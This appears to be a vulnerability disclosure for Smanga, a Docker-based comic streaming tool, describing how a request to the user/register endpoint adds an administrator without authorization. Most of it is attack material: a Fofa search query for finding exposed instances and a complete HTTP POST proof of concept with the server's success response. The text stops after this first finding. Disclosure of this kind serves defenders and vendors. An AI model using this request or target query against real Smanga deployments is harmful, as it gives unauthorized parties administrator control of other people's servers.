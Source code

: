 ### Vulnerability Report for Smanga MediaId - Unauthorized Operations

#### 1. Unauthorized Addition of Administrator User

**Exploit Title:** Smanga MediaId Unauthorized Addition of Administrator User  
**Date:** 2024-04-01  
**Exploit Author:** Shuo Sheng, Jixin Zhang  

##### Description:

Smanga is a Docker-based comic streaming tool inspired by Emby and Plex, designed to meet the needs of comic reading. The `mediaId` in Smanga allows unauthorized addition of administrator users.

##### Fofa Query:

```
title="smanga"
```

##### Installation via Docker:

```dockerfile
docker run -itd --name smanga \
-p 3333:3306 \
-p 9797:80 \
-v /mnt:/mnt \
-v /route/smanga:/data \
lkw199711/smanga;
```

##### Proof of Concept (PoC):

To successfully exploit this vulnerability, you must include `userId=1`.

**Request Packet:**

```http
POST /php/public/index.php/user/register HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 38
Origin: url
Connection: keep-alive
Referer: url
Priority: u=0

userId=1&userName=ssss&passWord=sanbao
```

**Response:**

```json
{
  "status": "success",
  "message": "user add success"
}
```

#### 